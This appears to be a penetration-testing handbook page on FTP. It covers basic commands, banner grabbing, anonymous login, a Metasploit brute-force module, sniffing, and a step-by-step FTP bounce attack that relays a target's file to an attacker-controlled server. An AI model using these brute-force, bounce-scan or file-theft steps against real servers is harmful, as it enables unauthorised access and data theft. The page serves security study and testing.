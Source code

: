 # 🛠️ FTP

## Theory

The **File Transfer Protocol (FTP**) is a standard network protocol used for the transfer of files between a client and server. It usually runs on ports 21/tcp or 2121/tcp.

## Basic usage

Standard UNIX-like commands, like `cd`, `ls`, `mkdir`, `rm` can be used. Here is a short list of some specific commands.

| Command  | Description                       |
| -------- | --------------------------------- |
| `help`   | display local help information    |
| `get`    | download file from remote server  |
| `put`    | upload file on the remote server  |
| `ascii`  | set the transfer type to "ASCII"  |
| `binary` | set the transfer type to "Binary" |
| `close`  | terminate FTP session             |
| `bye`    | terminate ftp session and exit    |

{% hint style="info" %}
When downloading files, users should set the FTP client to "Binary" (`binary` command) in order to prevent files from becoming corrupted during transit.

Regular text file can be downloaded in the other mode : "ASCII" (`ascii` command)
{% endhint %}

{% hint style="info" %}
Hidden files can be listed with `ls -a`
{% endhint %}

## Enumeration

### Banner grabbing

Useful to get basic information about the FTP server such as its type and version.

```bash
telnet -vn $IP $PORT
```

### Accepted commands

The `HELP` and `FEAT` commands could give information about the FTP server such as the recognized commands and the extended features the server supports.

```
HELP
214-The following commands are recognized (* =>'s unimplemented):
214-CWD     XCWD    CDUP    XCUP    SMNT*   QUIT    PORT    PASV    
214-EPRT    EPSV    ALLO*   RNFR    RNTO    DELE    MDTM    RMD     
214-XRMD    MKD     XMKD    PWD     XPWD    SIZE    SYST    HELP    
214-NOOP    FEAT    OPTS    AUTH    CCC*    CONF*   ENC*    MIC*    
214-PBSZ    PROT    TYPE    STRU    MODE    RETR    STOR    STOU    
214-APPE    REST    ABOR    USER    PASS    ACCT*   REIN*   LIST    
214-NLST    STAT    SITE    MLSD    MLST    
214 Direct comments to root@drei.work
FEAT
211-Features:
 PROT
 CCC
 PBSZ
 AUTH TLS
 MFF modify;UNIX.group;UNIX.mode;
 REST STREAM
 MLST modify*;perm*;size*;type*;unique*;UNIX.group*;UNIX.mode*;UNIX.owner*;
 UTF8
 EPRT
 EPSV
 LANG en-US
 MDTM
 SSCN
 TVFS
 MFMT
 SIZE
211 End
```

### 🛠️ Files

[https://www.howtoforge.com/using-wget-with-ftp-to-download-move-web-sites-recursively](https://www.howtoforge.com/using-wget-with-ftp-to-download-move-web-sites-recursively)

## Connection

### Anonymous login

Some FTP servers are configured to let users connect anonymously and thus give them access to files on the servers without authentication.

```bash
$ ftp $IP $PORT
Name: anonymous
Password: <nothing>
ftp> ls -a # List all files (even hidden) (yes, they could be hidden)
ftp> ...
```

## Attacks

### Brute force

```bash
msfconsole
use auxiliary/scanner/ftp/ftp_login
set RHOSTS $IP
set RPORT $PORT
set USER_FILE $user.txt
set PASS_FILE $pass.txt
run
```

### FTP sniffing

If the FTP communications are not encrypted and if the attacker is on the same network of the client or the server he can sniff the data packet traveling between the client and the server in order to retrieve credential.

Several tools like `Wireshark` could be used to sniff TCP packets.

### FTP Bounce **attacks**

FTP Bounce attacks let an attacker requests access to ports by using the FTP command `PORT`. It's mostly used to make a port-scan without being detected (as you are not the one doing it, but the FTP server for you), for D.o.S. attacks, or to download files from another FTP server.

To check if the FTP server is vulnerable to Bounce attacks it is possible to use the tool `NMAP`.

{% hint style="info" %}
[https://nmap.org/nsedoc/scripts/ftp-bounce.html](https://nmap.org/nsedoc/scripts/ftp-bounce.html)
{% endhint %}

#### Scan the victim's network

If a FTP server is vulnerable to Bounce attacks, an attacker could use it to scan its network without being detected.

```bash
nmap -v -b -P0 'username':'password'@'ftp_server' 'address(es)_to_scan'
```

#### Download file/folder

If an attacker has access to a bounce FTP server, he can make it request files of other FTP server and download that file to his own server.

{% hint style="warning" %}
**Requirements:**

* Valid credentials in the FTP intermediate server
* Valid credentials in target FTP server
* Both servers accept the PORT command
* Write permissions in the intermediate server
* Attacker's FTP server supports passive mode
{% endhint %}

#### Steps

* Connect to your own FTP server and make the connection passive to make it listen in a directory where the victim service will send the file.

```bash
#Start server + connection
service pure-ftpd start
ftp My_IP 21
ftp> USER my_own_username
#Enable passive mode
ftp> pasv
Entering Passive Mode (F,F,F,F,X,X) #Note the output (IP and port)
#Tells server to accept data and to store it into the dump file
ftp> stor dump
```

* Create the file to send to the intermediate server with the commands that the targeted server will have to execute. Let's call this file `instrs`.

```bash
user ftp   # user and pass of the targeted server
pass -anonymous@
cwd /DIRECTORY
type i
port F,F,F,F,X,X  #IP and port of the attacker
retr file.tar.Z
quit
^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@ ... ^@^@^@^@
^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@ ... ^@^@^@^@
...
```

{% hint style="info" %}
The extra nulls at the end of the command file are to fill up the TCP windows and ensure that the command connection stays open long enough for the whole session to be executed.
{% endhint %}

* Upload this file on the intermediate server, then upload it from the intermediate server to the targeted server and \_\_make the targeted machine execute this file.&#x20;

```bash
#Run these commands on the intermediate server
put instrs
quote "port C,C,C,C,0,21" #IP of the targeted server
quote "retr instrs"
```

* The attacker should have received on his server the file 'file.tar.Z' renamed as 'dump'.&#x20;

## Resources

{% embed url="https://book.hacktricks.xyz/pentesting/pentesting-ftp" %}

{% embed url="https://shahmeeramir.com/penetration-testing-of-an-ftp-server-19afe538be4b" %}

{% embed url="https://www.thesecuritybuddy.com/vulnerabilities/what-is-ftp-bounce-attack/" %}

{% embed url="https://www.serv-u.com/features/file-transfer-protocol-server-linux/commands" %}
